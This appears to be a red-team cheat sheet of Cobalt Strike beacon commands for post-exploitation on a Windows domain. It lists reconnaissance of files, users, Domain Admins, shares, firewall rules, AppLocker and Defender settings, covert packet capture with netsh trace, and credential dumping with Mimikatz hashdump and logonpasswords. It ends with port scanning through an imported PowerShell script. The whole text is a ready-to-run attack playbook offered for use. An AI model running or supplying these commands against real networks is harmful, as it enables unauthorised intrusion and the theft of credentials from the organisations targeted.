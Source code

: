 shell dir /a C:\
shell dir /a "C:\Program Files"
shell dir /a "C:\Program Files (x86)"
shell dir /a C:\Users
shell dir /a "C:\$Recycle.Bin"

net user
net user /domain
net group "Domain Admins" /domain
net view

shell net use
shell net share
shell net session

shell netsh firewall show opmode
shell netsh firewall show config
shell netsh advfirewall firewall show rule profile=domain name=all
shell netsh advfirewall show allprofiles
shell netsh advfirewall firewall show rule all
shell netsh interface portproxy show all

shell dir /a /w /s /x C:\ > C:\Windows\TEMP\Directories.txt

powershell $psversiontable
powershell Get-ExecutionPolicy
powershell Get-MpPreference
powershell Get-Module -ListAvailable

powershell $ExecutionContext.SessionState.LanguageMode
powershell Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

shell reg query HKLM\Software
shell reg query HKLM\System



# BUILT-IN WINDOWS PCAPS 
shell netsh trace start capture=yes overwrite=no tracefile=C:\Windows\TEMP\sniff.etl
shell netsh trace stop

# PULLING CREDS WITH MIMIKATZ
hashdump
logonpasswords

# AS ANY DOMAIN USER - PORTSCAN TO ID OPEN PORTS
* CS BUILT IN - 
portscan [range] [ports] [arp|icmp|none]

* With POWERSHELL MAFIA
powershell-import /opt/POWERSHELL-MAFIA/Recon/Invoke-Portscan.ps1

